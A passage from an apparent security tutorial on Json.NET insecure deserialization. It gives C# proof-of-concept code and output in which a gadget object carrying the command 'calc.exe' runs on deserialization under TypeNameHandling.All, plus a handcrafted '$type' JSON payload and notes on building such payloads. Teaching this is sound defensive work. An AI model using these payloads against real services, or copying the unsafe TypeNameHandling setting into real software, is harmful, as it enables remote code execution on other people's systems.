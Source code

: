 public class Vulnerable {
    public required string Str { get; set; }
    // Dangerous: this allows the `object` type
<strong>    public required object Obj { get; set; }
</strong>}

class Program {
    static void Main() {
        // Serialization
<strong>        Gadget gadget = new Gadget { Input = "calc.exe" };
</strong>        Vulnerable vuln = new Vulnerable {
            Str = "Hello, world!",
            Obj = gadget
        };
<strong>        string json = JsonConvert.SerializeObject(vuln, new JsonSerializerSettings         {
</strong>            TypeNameHandling = TypeNameHandling.All
        });
        Console.WriteLine(json);  // {"$type":"Vulnerable, JsonTest","Str":"test@example.com","Obj":{"$type":"Gadget, JsonTest","Input":"calc.exe"}}

        Console.WriteLine("-> Press enter to continue..."); Console.ReadLine();

        // Deserialization
<strong>        Vulnerable? account = JsonConvert.DeserializeObject&#x3C;Vulnerable>(json, new JsonSerializerSettings {
</strong>            TypeNameHandling = TypeNameHandling.All
        });
        if (account is not null) Console.WriteLine("Result: " + account.Obj);
        else Console.WriteLine("Failed to deserialize");
    }
}
</code></pre>

When ran with `dotnet run`, this will generate the object with payload first, and then serialize it into JSON ready to send to the target. The 2nd part will similar the target receiving the string, and deserializing it into a vulnerable type. You will see that the `set {}` method is called twice:

<pre class="language-json" data-title="Output" data-overflow="wrap"><code class="lang-json">Command executed: calc.exe
<strong>{"$type":"Vulnerable, JsonTest","Str":"test@example.com","Obj":{"$type":"Gadget, JsonTest","Input":"calc.exe"}}
</strong>-> Press enter to continue...

<strong>Command executed: calc.exe
</strong>Result: Gadget
</code></pre>

The syntax is pretty simple, so if you want to, you can even handcraft these payloads. The syntax for the `$type` key is `Path.To.Class, AssemblyName`, where the path to the class is follows the nested structure of namespaces and classes to your gadget.

For another example, see the writeup below:

{% embed url="https://jorianwoltjer.com/blog/p/ctf/htb-university-ctf-2023/nexus-void#json-deserialization" %}
Writeup including a custom Json.NET deserialization chain to execute commands
{% endembed %}
